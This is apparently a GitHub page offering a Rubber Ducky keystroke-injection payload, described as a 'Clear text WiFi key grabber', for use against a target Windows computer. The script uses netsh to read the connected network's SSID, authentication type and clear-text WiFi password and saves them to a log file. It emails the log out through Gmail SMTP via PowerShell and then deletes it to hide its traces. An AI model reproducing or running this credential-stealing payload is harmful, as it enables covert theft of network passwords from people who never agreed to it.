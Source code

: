 # This payload:
1. Opens CMD
2. Finds the key (password) of the WiFi the target is connected to
3. Saves the SSID, Network type, Authentication and the key to Log.txt
4. And emails Log.txt via gmail

### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send Log.txt to

If you have **any suggestions** please **tell me**.

## **Code**:
 REM Author: Siem
 REM Version: 1
 REM Description: Clear text WiFi key grabber
```
DELAY 2000
WINDOWS d
REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000
REM --> Change directory (you can change this to something else to make less visible)
STRING cd "%USERPROFILE%\Desktop"
ENTER
REM --> Get SSID
STRING for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "B"') do set SSID=%A
ENTER
REM --> Get network type
STRING netsh wlan show profiles %SSID% | findstr "Network type" | findstr /v "broadcast" | findstr /v "Radio">Temp.txt
ENTER
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" Temp.txt') do set NETTYPE=%A
ENTER
REM --> Get authentication
STRING netsh wlan show profiles %SSID% | findstr "Authentication">Temp.txt
ENTER
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" Temp.txt') do set AUTH=%A
ENTER
REM --> Get key
STRING netsh wlan show profiles %SSID% key=clear | findstr "Key Content">Temp.txt
ENTER
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" Temp.txt') do set KEY=%A
ENTER
REM --> Delete Temp.txt
STRING del Temp.txt
ENTER
REM --> Create Log.txt
STRING echo SSID: %SSID%>>Log.txt & echo Network type: %NETTYPE%>>Log.txt & echo Authentication: %AUTH%>>Log.txt & echo Password: %KEY%>>Log.txt
ENTER
REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi'
ENTER
STRING $ReportEmail.Body = 'The log is attached!' 
ENTER
STRING $ReportEmail.Attachments.Add('Log.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER
REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```